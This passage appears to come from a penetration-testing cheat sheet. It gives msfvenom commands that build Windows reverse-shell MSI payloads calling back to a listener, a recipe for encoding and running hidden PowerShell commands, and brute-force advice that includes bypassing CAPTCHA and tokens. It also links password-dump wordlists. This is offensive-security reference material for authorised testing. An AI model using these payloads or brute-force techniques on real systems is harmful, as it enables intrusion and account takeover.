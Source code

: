 To generate an `MSI file`, use one of the following MSFvenom commands (modify them to your need):

```fundamental
msfvenom --platform windows -a x86 -e x86/call4_dword_xor -p windows/shell_reverse_tcp LHOST=192.168.8.5 LPORT=9000 EXITFUNC=thread -f msi -b \x00\x0a\x0d\xff -o payload.msi

msfvenom --platform windows -a x64 -e x64/xor -p windows/x64/shell_reverse_tcp LHOST=192.168.8.5 LPORT=9000 EXITFUNC=thread -f msi -b \x00\x0a\x0d\xff -o payload.msi
```

Bytecode might not work on the first try due to some other bad characters. Trial and error is the key.

So far there is no easy way to generate a DLL nor MSI file with a stageless meterpreter shell due to the size issues.

### PowerShell Encoded Command

To generate a PowerShell encoded command from a PowerShell script, run the following PowerShell command:

```pwsh
[Convert]::ToBase64String([Text.Encoding]::Unicode.GetBytes([IO.File]::ReadAllText($script)))
```

To run the PowerShell encoded command, run the following command from either PowerShell or Command Prompt:

```pwsh
PowerShell -ExecutionPolicy Unrestricted -NoProfile -EncodedCommand $command
```

To decode a PowerShell encoded command, run the following PowerShell command:

```pwsh
[Text.Encoding]::Unicode.GetString([Convert]::FromBase64String($command))
```

Find out more about PowerShell reverse and bind TCP shells from my other [project](https://github.com/ivan-sincek/powershell-reverse-tcp).

## 5. Password Cracking

**Google a hash before trying to crack it because you might save yourself a lot of time and trouble.**

Use [Google Dorks](#google-dorks), [Metagoofil](#metagoofil), or [FOCA](#foca) to find files and within file's metadata domain usernames to brute force.

**Keep in mind that you might lockout people's accounts.**

Keep in mind that some web forms implement CAPTCHA and/or hidden submission tokens which may prevent you from brute forcing. Try to submit requests without tokens or CAPTCHA.

You can find a bunch of wordlists in [SecLists](#wordlists).

### 5.1 Useful Websites

* [gchq.github.io/CyberChef](https://gchq.github.io/CyberChef)
* [onlinehashcrack.com](https://www.onlinehashcrack.com)
* [hashkiller.io/listmanager](https://hashkiller.io/listmanager) (has many other tools)
* [hashes.com/en/decrypt/hash](https://hashes.com/en/decrypt/hash) (has many other tools)
* [crackstation.net](https://crackstation.net)
* [weakpass.com/wordlist](https://weakpass.com/wordlist) (lots of password dumps)
* [packetstormsecurity.com/Crackers/wordlists](https://packetstormsecurity.com/Crackers/wordlists)
